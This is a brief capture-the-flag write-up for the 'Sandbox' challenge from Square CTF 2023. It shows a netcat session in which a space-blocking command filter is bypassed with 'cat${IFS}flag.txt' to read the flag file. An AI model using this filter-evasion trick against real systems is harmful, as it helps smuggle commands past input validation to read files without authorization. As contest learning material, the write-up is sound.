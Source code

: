 ```yaml
---
title: Sandbox
type: writeup
date: 2024-02-19T14:54:01+02:00
description: Writeup for Sandbox [Square CTF 2023]
author: H0N3YP0T
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I "made" "a" "python" "sandbox" """"
nc 184.72.87.9 8008

## Intuition

It seems the server blacklist the space character so I am not able to `cat flag.txt`.

## Solution

Escape the space character by using the following command:

```bash
┌──🮤 HON3YP0T🮥─🮤 192.168.0.234🮥─🮤直 192.168.0.17🮥
├──🮤  ~🮥
└─   nc 184.72.87.9 8008                                            [11:51PM ]
Hi! Welcome to the kidz corner sandbox! we made it super safe in here - you can execute whatever command you want, but only one word at a time so you can't do anything too dangerous, like steal our flags!
cat${IFS}flag.txt
flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}
```

### Flag

`flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}`

